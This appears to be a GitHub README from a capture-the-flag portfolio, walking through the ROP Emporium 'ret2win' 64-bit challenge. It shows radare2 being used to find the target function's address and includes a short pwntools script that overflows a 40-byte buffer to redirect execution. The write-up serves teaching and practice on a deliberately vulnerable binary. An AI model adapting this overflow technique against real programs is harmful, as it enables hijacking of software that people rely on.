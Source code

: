 # ROP EMPORIUM

***

| Challenge          | Walkthrough                                                                                  |
| ------------       | --------                                                                                     |
| [Ret2Win](#ret2win)| [pdf](ttps://github.com/jpowellroot/Pwnfolio/blob/master/ROP_Emporium/Writeups/Ret2win64.pdf)|
| Split              |                                                                                              |
| Callme             |                                                                                              |
| Write4             |                                                                                              |

***

## RET2WIN 64<a name="ret2win"></a>

> ### 1. Problem
>> In this challenge, there is a function called ret2win located somewhere
>> in the binary which can be used to cat the flag.txt file. The goal is to:
>>
>> - [ ] Find offset of the ret2win function
>>
>> - [ ] Find out the buffer length
>>
>> - [ ] Overflow the buffer and overwrite `$rsp` with the ret2win address offset

> ### 2. Solution
>> - [X] Find offset of the ret2win function
>>> I used the `> afl` command in radare2 to list the functions with their offsets.
>>> This showed me that the ret2win function was located at address 0x00400756.
>>
>> - [X] Find out the buffer length
>>> In the ROP Emporium challenges all of the buffers are 40 bytes long.
>>
>> - [X] Overflow the buffer and overwrite `$rsp` with the ret2win address offset
>>> I used a pwntools script in order to execute the exploit.
~~~python

#!/usr/bin/env python

from pwn import *

elf = context.binary = ELF('ret2win')
context.log_level = 'debug'

padding = cyclic(40)
ret2win = p64(0x00400756)

payload = padding
payload += ret2win

io = process(elf.path)
io.sendline(payload)
io.wait_for_close()
io.recvall()

~~~

**FLAG:**  *ROPE{a_placeholder_32byte_flag!}* 
***
